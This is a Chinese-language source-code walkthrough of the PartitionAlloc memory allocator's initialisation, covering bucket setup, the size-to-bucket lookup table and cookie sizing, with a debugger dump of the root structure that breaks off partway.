




# partitionalloc

注：实际中partitionalloc未使用cookie，阅读时请注意！

## 源码分析：
main：

```
#include <stdio.h>
#include <stdlib.h>

#include <vector>

#include "config.h"
#include "PartitionAlloc.h"

PartitionAllocatorGeneric my_partition;

int main(int argc, char *argv[]) {

	printf("Root @ %p\n", my_partition.root());
	my_partition.init();
	printf("Root @ %p initialized\n", my_partition.root());

	void *p = partitionAllocGeneric(my_partition.root(), 16);
	printf("PartitionAlloc memory allocated @ %p\n", p);
    
    void *q = partitionAllocGeneric(my_partition.root(), 15);
    printf("PartitionAlloc memory allocated @ %p\n", q);
    
	partitionFreeGeneric(my_partition.root(), p);

	void *t = malloc(1024);
	printf("Memory allocated with malloc @ %p\n", t);
	free(t);

	return 0;
}
```

### init：

它是通过调用void partitionAllocGenericInit(PartitionRootGeneric* root)实现的：

<details>
<summary>partitionAllocGenericInit源码</summary>
```
static void parititonAllocBaseInit(PartitionRootBase* root)
{
    ASSERT(!root->initialized);

    spinLockLock(&PartitionRootBase::gInitializedLock);
    if (!PartitionRootBase::gInitialized) {
        PartitionRootBase::gInitialized = true;
        // We mark the seed page as free to make sure it is skipped by our
        // logic to find a new active page.
        PartitionRootBase::gPagedBucket.activePagesHead = &PartitionRootGeneric::gSeedPage;
    }
    spinLockUnlock(&PartitionRootBase::gInitializedLock);

    root->initialized = true;
    root->totalSizeOfCommittedPages = 0;
    root->totalSizeOfSuperPages = 0;
    root->totalSizeOfDirectMappedPages = 0;
    root->nextSuperPage = 0;
    root->nextPartitionPage = 0;
    root->nextPartitionPageEnd = 0;
    root->firstExtent = 0;
    root->currentExtent = 0;
    root->directMapList = 0;

    memset(&root->globalEmptyPageRing, '\0', sizeof(root->globalEmptyPageRing));
    root->globalEmptyPageRingIndex = 0;

    // This is a "magic" value so we can test if a root pointer is valid.
    root->invertedSelf = ~reinterpret_cast<uintptr_t>(root);
}

static void partitionBucketInitBase(PartitionBucket* bucket, PartitionRootBase* root)
{
    bucket->activePagesHead = &PartitionRootGeneric::gSeedPage;
    bucket->emptyPagesHead = 0;
    bucket->decommittedPagesHead = 0;
    bucket->numFullPages = 0;
    bucket->numSystemPagesPerSlotSpan = partitionBucketNumSystemPages(bucket->slotSize);
}

void partitionAllocInit(PartitionRoot* root, size_t numBuckets, size_t maxAllocation)
{
    parititonAllocBaseInit(root);

    root->numBuckets = numBuckets;
    root->maxAllocation = maxAllocation;
    size_t i;
    for (i = 0; i < root->numBuckets; ++i) {
        PartitionBucket* bucket = &root->buckets()[i];
        if (!i)
            bucket->slotSize = kAllocationGranularity;
        else
            bucket->slotSize = i << kBucketShift;
        partitionBucketInitBase(bucket, root);
    }
}

void partitionAllocGenericInit(PartitionRootGeneric* root)
{
    parititonAllocBaseInit(root);

    root->lock = 0;

    // Precalculate some shift and mask constants used in the hot path.
    // Example: malloc(41) == 101001 binary.
    // Order is 6 (1 << 6-1)==32 is highest bit set.
    // orderIndex is the next three MSB == 010 == 2.
    // subOrderIndexMask is a mask for the remaining bits == 11 (masking to 01 for the subOrderIndex).
    size_t order;
    for (order = 0; order <= kBitsPerSizet; ++order) {
        size_t orderIndexShift;
        if (order < kGenericNumBucketsPerOrderBits + 1)
            orderIndexShift = 0;
        else
            orderIndexShift = order - (kGenericNumBucketsPerOrderBits + 1);
        root->orderIndexShifts[order] = orderIndexShift;
        size_t subOrderIndexMask;
        if (order == kBitsPerSizet) {
            // This avoids invoking undefined behavior for an excessive shift.
            subOrderIndexMask = static_cast<size_t>(-1) >> (kGenericNumBucketsPerOrderBits + 1);
        } else {
            subOrderIndexMask = ((static_cast<size_t>(1) << order) - 1) >> (kGenericNumBucketsPerOrderBits + 1);
        }
        root->orderSubIndexMasks[order] = subOrderIndexMask;
    }

    // Set up the actual usable buckets first.
    // Note that typical values (i.e. min allocation size of 8) will result in
    // pseudo buckets (size==9 etc. or more generally, size is not a multiple
    // of the smallest allocation granularity).
    // We avoid them in the bucket lookup map, but we tolerate them to keep the
    // code simpler and the structures more generic.
    size_t i, j;
    size_t currentSize = kGenericSmallestBucket;
    size_t currentIncrement = kGenericSmallestBucket >> kGenericNumBucketsPerOrderBits;
    PartitionBucket* bucket = &root->buckets[0];
    for (i = 0; i < kGenericNumBucketedOrders; ++i) {
        for (j = 0; j < kGenericNumBucketsPerOrder; ++j) {
            bucket->slotSize = currentSize;
            partitionBucketInitBase(bucket, root);
            // Disable psuedo buckets so that touching them faults.
            if (currentSize % kGenericSmallestBucket)
                bucket->activePagesHead = 0;
            currentSize += currentIncrement;
            ++bucket;
        }
        currentIncrement <<= 1;
    }
    ASSERT(currentSize == 1 << kGenericMaxBucketedOrder);
    ASSERT(bucket == &root->buckets[0] + kGenericNumBuckets);

    // Then set up the fast size -> bucket lookup table.
    bucket = &root->buckets[0];
    PartitionBucket** bucketPtr = &root->bucketLookups[0];
    for (order = 0; order <= kBitsPerSizet; ++order) {
        for (j = 0; j < kGenericNumBucketsPerOrder; ++j) {
            if (order < kGenericMinBucketedOrder) {
                // Use the bucket of the finest granularity for malloc(0) etc.
                *bucketPtr++ = &root->buckets[0];
            } else if (order > kGenericMaxBucketedOrder) {
                *bucketPtr++ = &PartitionRootGeneric::gPagedBucket;
            } else {
                PartitionBucket* validBucket = bucket;
                // Skip over invalid buckets.
                while (validBucket->slotSize % kGenericSmallestBucket)
                    validBucket++;
                *bucketPtr++ = validBucket;
                bucket++;
            }
        }
    }
    ASSERT(bucket == &root->buckets[0] + kGenericNumBuckets);
    ASSERT(bucketPtr == &root->bucketLookups[0] + ((kBitsPerSizet + 1) * kGenericNumBucketsPerOrder));
    // And there's one last bucket lookup that will be hit for e.g. malloc(-1),
    // which tries to overflow to a non-existant order.
    *bucketPtr = &PartitionRootGeneric::gPagedBucket;
}
```
</details>

#### 下面我们来详细分析一下它的作用：

首先是parititonAllocBaseInit(root);

```
static void parititonAllocBaseInit(PartitionRootBase* root)
{
    ASSERT(!root->initialized);

    spinLockLock(&PartitionRootBase::gInitializedLock);
    if (!PartitionRootBase::gInitialized) {
        PartitionRootBase::gInitialized = true;
        // We mark the seed page as free to make sure it is skipped by our
        // logic to find a new active page.
        PartitionRootBase::gPagedBucket.activePagesHead = &PartitionRootGeneric::gSeedPage;
    }
    spinLockUnlock(&PartitionRootBase::gInitializedLock);

    root->initialized = true;
    root->totalSizeOfCommittedPages = 0;
    root->totalSizeOfSuperPages = 0;
    root->totalSizeOfDirectMappedPages = 0;
    root->nextSuperPage = 0;
    root->nextPartitionPage = 0;
    root->nextPartitionPageEnd = 0;
    root->firstExtent = 0;
    root->currentExtent = 0;
    root->directMapList = 0;

    memset(&root->globalEmptyPageRing, '\0', sizeof(root->globalEmptyPageRing));
    root->globalEmptyPageRingIndex = 0;

    // This is a "magic" value so we can test if a root pointer is valid.
    root->invertedSelf = ~reinterpret_cast<uintptr_t>(root);
}
```
没什么特别的地方就是赋了一些初值，简单看看就好。

#### 接下来他们为hot path提前准备了一些shifts和mask：
这些我们放到用到它的地方来讲解：
```
    size_t order;
    for (order = 0; order <= kBitsPerSizet; ++order) {
        size_t orderIndexShift;
        if (order < kGenericNumBucketsPerOrderBits + 1)
            orderIndexShift = 0;
        else
            orderIndexShift = order - (kGenericNumBucketsPerOrderBits + 1);
        root->orderIndexShifts[order] = orderIndexShift;
        size_t subOrderIndexMask;
        if (order == kBitsPerSizet) {
            // This avoids invoking undefined behavior for an excessive shift.
            subOrderIndexMask = static_cast<size_t>(-1) >> (kGenericNumBucketsPerOrderBits + 1);
        } else {
            subOrderIndexMask = ((static_cast<size_t>(1) << order) - 1) >> (kGenericNumBucketsPerOrderBits + 1);
        }
        root->orderSubIndexMasks[order] = subOrderIndexMask;
    }
```

#### 接下来是设置实际可用的bucket：
```
    size_t i, j;
    size_t currentSize = kGenericSmallestBucket;
    size_t currentIncrement = kGenericSmallestBucket >> kGenericNumBucketsPerOrderBits;
    PartitionBucket* bucket = &root->buckets[0];
    for (i = 0; i < kGenericNumBucketedOrders; ++i) {
        for (j = 0; j < kGenericNumBucketsPerOrder; ++j) {
            bucket->slotSize = currentSize;
            partitionBucketInitBase(bucket, root);
            // Disable psuedo buckets so that touching them faults.
            if (currentSize % kGenericSmallestBucket)
                bucket->activePagesHead = 0;
            currentSize += currentIncrement;
            ++bucket;
        }
        currentIncrement <<= 1;
    }
```

这个看一张图就懂了：


大循环是图中横向增长，内循环是竖向增长，每一次外循环currentIncrement <<= 1;通过位运算改变内循环的增量
图中的暗色部分是不满足条件的大小，判断代码如下：（举例9～15大小的都可以用16来存，所以他们就可以删去了）。
```
            // Disable psuedo buckets so that touching them faults.
            if (currentSize % kGenericSmallestBucket)
                bucket->activePagesHead = 0;
```

在循环中对合格的bucket做了初始化：(gSeedPage是表示空的标记)
```
static void partitionBucketInitBase(PartitionBucket* bucket, PartitionRootBase* root)
{
    bucket->activePagesHead = &PartitionRootGeneric::gSeedPage;
    bucket->emptyPagesHead = 0;
    bucket->decommittedPagesHead = 0;
    bucket->numFullPages = 0;
    bucket->numSystemPagesPerSlotSpan = partitionBucketNumSystemPages(bucket->slotSize);
}
```


#### 之后是设置bocket快速查找表：

```
    bucket = &root->buckets[0];
    PartitionBucket** bucketPtr = &root->bucketLookups[0];
    for (order = 0; order <= kBitsPerSizet; ++order) {
        for (j = 0; j < kGenericNumBucketsPerOrder; ++j) {
            if (order < kGenericMinBucketedOrder) {
                // Use the bucket of the finest granularity for malloc(0) etc.
                *bucketPtr++ = &root->buckets[0];
            } else if (order > kGenericMaxBucketedOrder) {
                *bucketPtr++ = &PartitionRootGeneric::gPagedBucket;
            } else {
                PartitionBucket* validBucket = bucket;
                // Skip over invalid buckets.
                while (validBucket->slotSize % kGenericSmallestBucket)
                    validBucket++;
                *bucketPtr++ = validBucket;
                bucket++;
            }
        }
    }
```
首先第一阶段，先初始化前32个bucketLookups全部设为&root->buckets[0]，它们对应了malloc 0～8字节大小事的情况 (这部分关于size如何转换到对应的bucketLookups索引在下面会细说)。


虽然实际情况下我们申请的内存和cookie无关，但在这里还是简单提一嘴，cookie它的大小为32(前后两个cookie，各16字节，用户申请的空间夹在两个cookie之间)，在开启cookie的情况下即使我们申请0大小的空间，他也会去寻找bucketLookups[48]。
```
ALWAYS_INLINE size_t partitionCookieSizeAdjustAdd(size_t size)
{
#if ENABLE(ASSERT)
    // Add space for cookies, checking for integer overflow.
    ASSERT(size + (2 * kCookieSize) > size);
    size += 2 * kCookieSize;
#endif
    return size;
}
```

第二阶段
这个阶段就是将上面的实际可用的bucket移过来 135+32=167


第三阶段

将剩余的超出可用bucket的都初始化为&PartitionRootGeneric::gPagedBucket。

到这里就初始化结束了，我们看下现在的PartitionRootBase结构

<details>
<summary>PartitionRootBase</summary>

```
Printing description of ::my_partition:
(WTF::PartitionAllocatorGeneric) ::my_partition = {
  m_partitionRoot = {
    WTF::PartitionRootBase = {
      totalSizeOfCommittedPages = 0
      totalSizeOfSuperPages = 0
      totalSizeOfDirectMappedPages = 0
      numBuckets = 0
      maxAllocation = 0
      initialized = true
      nextSuperPage = 0x0000000000000000
      nextPartitionPage = 0x0000000000000000
      nextPartitionPageEnd = 0x0000000000000000
      currentExtent = 0x0000000000000000
      firstExtent = 0x0000000000000000
      directMapList = 0x0000000000000000
      globalEmptyPageRing = {
        [0] = 0x0000000000000000
        [1] = 0x0000000000000000
        [2] = 0x0000000000000000
        [3] = 0x0000000000000000
        [4] = 0x0000000000000000
        [5] = 0x0000000000000000
        [6] = 0x0000000000000000
        [7] = 0x0000000000000000
        [8] = 0x0000000000000000
        [9] = 0x0000000000000000
        [10] = 0x0000000000000000
        [11] = 0x0000000000000000
        [12] = 0x0000000000000000
        [13] = 0x0000000000000000
        [14] = 0x0000000000000000
        [15] = 0x0000000000000000
      }
      globalEmptyPageRingIndex = 0
      invertedSelf = 18446744069414502055
    }
    lock = 0
    orderIndexShifts = {
      [0] = 0
      [1] = 0
      [2] = 0
      [3] = 0
      [4] = 0
      [5] = 1
      [6] = 2
      [7] = 3
      [8] = 4
      [9] = 5
      [10] = 6
      [11] = 7
      [12] = 8
      [13] = 9
      [14] = 10
      [15] = 11
      [16] = 12
      [17] = 13
      [18] = 14
      [19] = 15
      [20] = 16
      [21] = 17
      [22] = 18
      [23] = 19
      [24] = 20
      [25] = 21
      [26] = 22
      [27] = 23
      [28] = 24
      [29] = 25
      [30] = 26
      [31] = 27
      [32] = 28
      [33] = 29
      [34] = 30
      [35] = 31
      [36] = 32
      [37] = 33
      [38] = 34
      [39] = 35
      [40] = 36
      [41] = 37
      [42] = 38
      [43] = 39
      [44] = 40
      [45] = 41
      [46] = 42
      [47] = 43
      [48] = 44
      [49] = 45
      [50] = 46
      [51] = 47
      [52] = 48
      [53] = 49
      [54] = 50
      [55] = 51
      [56] = 52
      [57] = 53
      [58] = 54
      [59] = 55
      [60] = 56
      [61] = 57
      [62] = 58
      [63] = 59
      [64] = 60
    }
    orderSubIndexMasks = {
      [0] = 0
      [1] = 0
      [2] = 0
      [3] = 0
      [4] = 0
      [5] = 1
      [6] = 3
      [7] = 7
      [8] = 15
      [9] = 31
      [10] = 63
      [11] = 127
      [12] = 255
      [13] = 511
      [14] = 1023
      [15] = 2047
      [16] = 4095
      [17] = 8191
      [18] = 16383
      [19] = 32767
      [20] = 65535
      [21] = 131071
      [22] = 262143
      [23] = 524287
      [24] = 1048575
      [25] = 2097151
      [26] = 4194303
      [27] = 8388607
      [28] = 16777215
      [29] = 33554431
      [30] = 67108863
      [31] = 134217727
      [32] = 268435455
      [33] = 536870911
      [34] = 1073741823
      [35] = 2147483647
      [36] = 4294967295
      [37] = 8589934591
      [38] = 17179869183
      [39] = 34359738367
      [40] = 68719476735
      [41] = 137438953471
      [42] = 274877906943
      [43] = 549755813887
      [44] = 1099511627775
      [45] = 2199023255551
      [46] = 4398046511103
      [47] = 8796093022207
      [48] = 17592186044415
      [49] = 35184372088831
      [50] = 70368744177663
      [51] = 140737488355327
      [52] = 281474976710655
      [53] = 562949953421311
      [54] = 1125899906842623
      [55] = 2251799813685247
      [56] = 4503599627370495
      [57] = 9007199254740991
      [58] = 18014398509481983
      [59] = 36028797018963967
      [60] = 72057594037927935
      [61] = 144115188075855871
      [62] = 288230376151711743
      [63] = 576460752303423487
      [64] = 1152921504606846975
    }
    bucketLookups = {
      [0] = 0x00000001000156a0
      [1] = 0x00000001000156a0
      [2] = 0x00000001000156a0
      [3] = 0x00000001000156a0
      [4] = 0x00000001000156a0
      [5] = 0x00000001000156a0
      [6] = 0x00000001000156a0
      [7] = 0x00000001000156a0
      [8] = 0x00000001000156a0
      [9] = 0x00000001000156a0
      [10] = 0x00000001000156a0
      [11] = 0x00000001000156a0
      [12] = 0x00000001000156a0
      [13] = 0x00000001000156a0
      [14] = 0x00000001000156a0
      [15] = 0x00000001000156a0
      [16] = 0x00000001000156a0
      [17] = 0x00000001000156a0
      [18] = 0x00000001000156a0
      [19] = 0x00000001000156a0
      [20] = 0x00000001000156a0
      [21] = 0x00000001000156a0
      [22] = 0x00000001000156a0
      [23] = 0x00000001000156a0
      [24] = 0x00000001000156a0
      [25] = 0x00000001000156a0
      [26] = 0x00000001000156a0
      [27] = 0x00000001000156a0
      [28] = 0x00000001000156a0
      [29] = 0x00000001000156a0
      [30] = 0x00000001000156a0
      [31] = 0x00000001000156a0
      [32] = 0x00000001000156a0
      [33] = 0x00000001000157a0
      [34] = 0x00000001000157a0
      [35] = 0x00000001000157a0
      [36] = 0x00000001000157a0
      [37] = 0x00000001000157a0
      [38] = 0x00000001000157a0
      [39] = 0x00000001000157a0
      [40] = 0x00000001000157a0
      [41] = 0x0000000100015820
      [42] = 0x0000000100015820
      [43] = 0x0000000100015820
      [44] = 0x0000000100015820
      [45] = 0x00000001000158a0
      [46] = 0x00000001000158a0
      [47] = 0x00000001000158a0
      [48] = 0x00000001000158a0
      [49] = 0x00000001000158e0
      [50] = 0x00000001000158e0
      [51] = 0x0000000100015920
      [52] = 0x0000000100015920
      [53] = 0x0000000100015960
      [54] = 0x0000000100015960
      [55] = 0x00000001000159a0
      [56] = 0x00000001000159a0
      [57] = 0x00000001000159c0
      [58] = 0x00000001000159e0
      [59] = 0x0000000100015a00
      [60] = 0x0000000100015a20
      [61] = 0x0000000100015a40
      [62] = 0x0000000100015a60
      [63] = 0x0000000100015a80
      [64] = 0x0000000100015aa0
      [65] = 0x0000000100015ac0
      [66] = 0x0000000100015ae0
      [67] = 0x0000000100015b00
      [68] = 0x0000000100015b20
      [69] = 0x0000000100015b40
      [70] = 0x0000000100015b60
      [71] = 0x0000000100015b80
      [72] = 0x0000000100015ba0
      [73] = 0x0000000100015bc0
      [74] = 0x0000000100015be0
      [75] = 0x0000000100015c00
      [76] = 0x0000000100015c20
      [77] = 0x0000000100015c40
      [78] = 0x0000000100015c60
      [79] = 0x0000000100015c80
      [80] = 0x0000000100015ca0
      [81] = 0x0000000100015cc0
      [82] = 0x0000000100015ce0
      [83] = 0x0000000100015d00
      [84] = 0x0000000100015d20
      [85] = 0x0000000100015d40
      [86] = 0x0000000100015d60
      [87] = 0x0000000100015d80
      [88] = 0x0000000100015da0
      [89] = 0x0000000100015dc0
      [90] = 0x0000000100015de0
      [91] = 0x0000000100015e00
      [92] = 0x0000000100015e20
      [93] = 0x0000000100015e40
      [94] = 0x0000000100015e60
      [95] = 0x0000000100015e80
      [96] = 0x0000000100015ea0
      [97] = 0x0000000100015ec0
      [98] = 0x0000000100015ee0
      [99] = 0x0000000100015f00
      [100] = 0x0000000100015f20
      [101] = 0x0000000100015f40
      [102] = 0x0000000100015f60
      [103] = 0x0000000100015f80
      [104] = 0x0000000100015fa0
      [105] = 0x0000000100015fc0
      [106] = 0x0000000100015fe0
      [107] = 0x0000000100016000
      [108] = 0x0000000100016020
      [109] = 0x0000000100016040
      [110] = 0x0000000100016060
      [111] = 0x0000000100016080
      [112] = 0x00000001000160a0
      [113] = 0x00000001000160c0
      [114] = 0x00000001000160e0
      [115] = 0x0000000100016100
      [116] = 0x0000000100016120
      [117] = 0x0000000100016140
      [118] = 0x0000000100016160
      [119] = 0x0000000100016180
      [120] = 0x00000001000161a0
      [121] = 0x00000001000161c0
      [122] = 0x00000001000161e0
      [123] = 0x0000000100016200
      [124] = 0x0000000100016220
      [125] = 0x0000000100016240
      [126] = 0x0000000100016260
      [127] = 0x0000000100016280
      [128] = 0x00000001000162a0
      [129] = 0x00000001000162c0
      [130] = 0x00000001000162e0
      [131] = 0x0000000100016300
      [132] = 0x0000000100016320
      [133] = 0x0000000100016340
      [134] = 0x0000000100016360
      [135] = 0x0000000100016380
      [136] = 0x00000001000163a0
      [137] = 0x00000001000163c0
      [138] = 0x00000001000163e0
      [139] = 0x0000000100016400
      [140] = 0x0000000100016420
      [141] = 0x0000000100016440
      [142] = 0x0000000100016460
      [143] = 0x0000000100016480
      [144] = 0x00000001000164a0
      [145] = 0x00000001000164c0
      [146] = 0x00000001000164e0
      [147] = 0x0000000100016500
      [148] = 0x0000000100016520
      [149] = 0x0000000100016540
      [150] = 0x0000000100016560
      [151] = 0x0000000100016580
      [152] = 0x00000001000165a0
      [153] = 0x00000001000165c0
      [154] = 0x00000001000165e0
      [155] = 0x0000000100016600
      [156] = 0x0000000100016620
      [157] = 0x0000000100016640
      [158] = 0x0000000100016660
      [159] = 0x0000000100016680
      [160] = 0x00000001000166a0
      [161] = 0x00000001000166c0
      [162] = 0x00000001000166e0
      [163] = 0x0000000100016700
      [164] = 0x0000000100016720
      [165] = 0x0000000100016740
      [166] = 0x0000000100016760
      [167] = 0x0000000100016780
      [168] = 0x0000000100014138
      [169] = 0x0000000100014138
      [170] = 0x0000000100014138
      [171] = 0x0000000100014138
      [172] = 0x0000000100014138
      [173] = 0x0000000100014138
      [174] = 0x0000000100014138
      [175] = 0x0000000100014138
      [176] = 0x0000000100014138
      [177] = 0x0000000100014138
      [178] = 0x0000000100014138
      [179] = 0x0000000100014138
      [180] = 0x0000000100014138
      [181] = 0x0000000100014138
      [182] = 0x0000000100014138
      [183] = 0x0000000100014138
      [184] = 0x0000000100014138
      [185] = 0x0000000100014138
      [186] = 0x0000000100014138
      [187] = 0x0000000100014138
      [188] = 0x0000000100014138
      [189] = 0x0000000100014138
      [190] = 0x0000000100014138
      [191] = 0x0000000100014138
      [192] = 0x0000000100014138
      [193] = 0x0000000100014138
      [194] = 0x0000000100014138
      [195] = 0x0000000100014138
      [196] = 0x0000000100014138
      [197] = 0x0000000100014138
      [198] = 0x0000000100014138
      [199] = 0x0000000100014138
      [200] = 0x0000000100014138
      [201] = 0x0000000100014138
      [202] = 0x0000000100014138
      [203] = 0x0000000100014138
      [204] = 0x0000000100014138
      [205] = 0x0000000100014138
      [206] = 0x0000000100014138
      [207] = 0x0000000100014138
      [208] = 0x0000000100014138
      [209] = 0x0000000100014138
      [210] = 0x0000000100014138
      [211] = 0x0000000100014138
      [212] = 0x0000000100014138
      [213] = 0x0000000100014138
      [214] = 0x0000000100014138
      [215] = 0x0000000100014138
      [216] = 0x0000000100014138
      [217] = 0x0000000100014138
      [218] = 0x0000000100014138
      [219] = 0x0000000100014138
      [220] = 0x0000000100014138
      [221] = 0x0000000100014138
      [222] = 0x0000000100014138
      [223] = 0x0000000100014138
      [224] = 0x0000000100014138
      [225] = 0x0000000100014138
      [226] = 0x0000000100014138
      [227] = 0x0000000100014138
      [228] = 0x0000000100014138
      [229] = 0x0000000100014138
      [230] = 0x0000000100014138
      [231] = 0x0000000100014138
      [232] = 0x0000000100014138
      [233] = 0x0000000100014138
      [234] = 0x0000000100014138
      [235] = 0x0000000100014138
      [236] = 0x0000000100014138
      [237] = 0x0000000100014138
      [238] = 0x0000000100014138
      [239] = 0x0000000100014138
      [240] = 0x0000000100014138
      [241] = 0x0000000100014138
      [242] = 0x0000000100014138
      [243] = 0x0000000100014138
      [244] = 0x0000000100014138
      [245] = 0x0000000100014138
      [246] = 0x0000000100014138
      [247] = 0x0000000100014138
      [248] = 0x0000000100014138
      [249] = 0x0000000100014138
      [250] = 0x0000000100014138
      [251] = 0x0000000100014138
      [252] = 0x0000000100014138
      [253] = 0x0000000100014138
      [254] = 0x0000000100014138
      [255] = 0x0000000100014138
      ...
    }
    buckets = {
      [0] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 8
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [1] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 9
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [2] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 10
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [3] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 11
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [4] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 12
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [5] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 13
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [6] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 14
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [7] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 15
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [8] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 16
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [9] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 18
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [10] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 20
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [11] = {
